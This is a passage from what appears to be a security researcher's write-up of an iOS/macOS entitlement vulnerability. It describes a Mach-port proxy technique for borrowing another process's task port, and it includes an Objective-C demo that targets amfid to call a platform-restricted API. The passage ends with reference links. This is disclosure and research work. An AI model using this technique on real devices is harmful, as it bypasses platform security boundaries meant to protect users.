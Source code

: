       ```
      ;-- _xpc_service_instance_set_binpref:
      str w1, [x0, 0x1c]
      ret
      
      ;-- _xpc_service_instance_set_finalizer_f:
      str x1, [x0, 0x88]
      ret
      ```
8.  Proxy setup phase:
    1. `malloc` a working buffer.
    2. Make the other process call `mach_ports_lookup` on itself to get our task port and a send right to the proxy port.
    3. Since the other process can use our task port but not vice versa, make it call `mach_port_extract_right` with `MACH_MSG_TYPE_MOVE_RECEIVE` on us to move the receive right for the proxy port to its namespace.
9.  Proxy run phase:
    1. Send a message to the proxy port.
    2. Make the other process receive it.
    3. Make it extract the port from our namespace that we actually want to send the message to.
    4. Replace the destination port in the remote mach message.
    5. Make it re-send the message it received.
    6. Receive the reply on our end.
    7. Repeat.

There's slightly more to it in practice, e.g. you have to fix up the remote message because target and reply port get swapped when receiving, arm64e needs some manual fiddling with thread register values to satisfy PAC, and so on, but it's all very doable.

I'm not gonna past the entire implementation in this post, [check it out here][proxy] if you like.  
What I will paste here is only the demo code that calls an API that would normally require `TF_PLATFORM`, to demonstrate how beautifully simple it is to use:

```objc
void demo(void)
{
    // This is just setup
    volatile mach_port_t *realport;
    mach_port_t proxy = haxx("/usr/libexec/amfid", &realport);
    kern_return_t ret;
    task_t task;
    pid_t pid;
    posix_spawnattr_t att;
    posix_spawnattr_init(&att);
    posix_spawnattr_setflags(&att, POSIX_SPAWN_START_SUSPENDED);
    posix_spawn(&pid, "/usr/libexec/backboardd", NULL, &att, (char* const*)(const char*[]){ "/usr/libexec/backboardd", NULL }, (char* const*)(const char*[]){ NULL });
    posix_spawnattr_destroy(&att);
    task_for_pid(mach_task_self(), pid, &task);
    NSLog(@"task: 0x%x", task);

    // This is the task port we normally couldn't use.
#if 0
    // And now instead of this:
    ret = mach_ports_register(task, NULL, 0);
#else
    // We can do this:
    *realport = task;
    ret = mach_ports_register(proxy, NULL, 0);
#endif
    NSLog(@"mach_ports_register: %s", mach_error_string(ret));
}
```


  [poc]: https://twitter.com/s1guza/status/1255641164885131268
  [lore]: https://tardis.fandom.com/wiki/Psychic_paper
  [xkcd-url]: https://xkcd.com/1144/
  [xkcd-img]: https://imgs.xkcd.com/comics/tags.png
  [entlist]: http://newosxbook.com/ent.jl
  [cl0ver]: https://siguza.github.io/cl0ver/
  [bsdinit]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/bsddev/IOKitBSDInit.cpp.auto.html
  [iouc]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/Kernel/IOUserClient.cpp.auto.html
  [iokituser]: https://opensource.apple.com/source/IOKitUser/IOKitUser-1726.41.1/IOCFUnserialize.tab.c.auto.html
  [cf]: https://opensource.apple.com/source/CF/CF-1153.18/CFPropertyList.c.auto.html
  [src]: https://github.com/Siguza/psychicpaper/tree/master/src
  [cve]: https://support.apple.com/en-us/HT211102
  [tweet]: https://twitter.com/LinusHenze/status/1243170188205461508
  [issue]: https://github.com/Siguza/psychicpaper/issues
  [twitter]: https://twitter.com/s1guza
  [repo]: https://github.com/Siguza/psychicpaper
  [joke]: https://twitter.com/joshuaseltzer/status/1255653827191148544
  [silly]: https://twitter.com/chronic/status/1255679349186981889
  [slick]: https://twitter.com/da5ch0/status/1255946105268961280
  [beautiful]: https://twitter.com/Emu4iOS/status/1255929980808298500
  [thonk]: https://twitter.com/nicolas09F9/status/1255906004719538182
  [lmao]: https://twitter.com/InvoxiPlayGames/status/1255648539851587585
  [proxy]: https://github.com/Siguza/psychicpaper/blob/master/stuff/proxy.m